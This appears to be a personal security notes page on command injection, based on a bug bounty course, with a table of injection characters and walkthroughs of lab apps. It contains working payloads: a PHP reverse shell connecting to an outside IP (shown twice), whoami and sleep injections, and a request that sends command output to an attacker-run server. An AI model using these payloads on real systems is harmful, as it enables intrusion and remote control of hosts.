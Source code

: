 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CI

{% hint style="success" %}
**Command Injection** is a vulnerability that allows an attacker to execute arbitrary commands on a host operating system through a vulnerable application. This happens when the application passes unsafe user input to a system shell.
{% endhint %}

## Injection Characters

<table><thead><tr><th width="166">Character</th><th width="149">URL-Encoded</th><th>Executed Command</th></tr></thead><tbody><tr><td><code>;</code></td><td><code>%3b</code></td><td>Both</td></tr><tr><td><code>\n</code></td><td><code>%0a</code></td><td>Both</td></tr><tr><td><code>&#x26;</code></td><td><code>%26</code></td><td>Both (second output generally shown first)</td></tr><tr><td><code>|</code></td><td><code>%7c</code></td><td>Both (only second output is shown)</td></tr><tr><td><code>&#x26;&#x26;</code></td><td><code>%26%26</code></td><td>Both (only if first succeeds)</td></tr><tr><td><code>||</code></td><td><code>%7c%7c</code></td><td>Second (only if first fails)</td></tr><tr><td><code>``</code></td><td><code>%60%60</code></td><td>Both (Linux-only)</td></tr><tr><td><code>$()</code></td><td><code>%24%28%29</code></td><td>Both (Linux-only)</td></tr><tr><td><code>#</code></td><td><code>%23</code></td><td>Both</td></tr></tbody></table>

## Examples

### In Band

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><img src="../../../../.gitbook/assets/web_ci_basic_1.png" alt=""><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the app and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).

{% code overflow="wrap" %}
```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_basic_2.png" alt=""><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### In Band (2)

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_1.png" alt=""><figcaption><p>Figure 3: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 4).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_2.png" alt=""><figcaption><p>Figure 4: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](./#basic) (Figure 5).

{% code overflow="wrap" %}
```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_3.png" alt=""><figcaption><p>Figure 5: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

### Blind

{% hint style="success" %}
**Blind Command Injection** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](./#basic) does not work (Figure 6.1). Either something gets filtered, which we can check (Figure 6.2 & 6.3), or we the command is executed but we don't get any output on the front-end.

<figure><img src="../../../../.gitbook/assets/web_ci_blind_1.png" alt=""><figcaption><p>Figure 6: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the app's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 7).

```bash
localhost?q=`sleep 5`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_2.png" alt=""><figcaption><p>Figure 7: Confirming a blind CI vulnerability.</p></figcaption></figure>

Next, we can achieve RCE[^2] by spawning up a web server and passing the desired command as a parameter (Figure 8).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_3.png" alt=""><figcaption><p>Figure 8: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

[^1]: Remote Code Execution

[^2]: Remote Code Execution

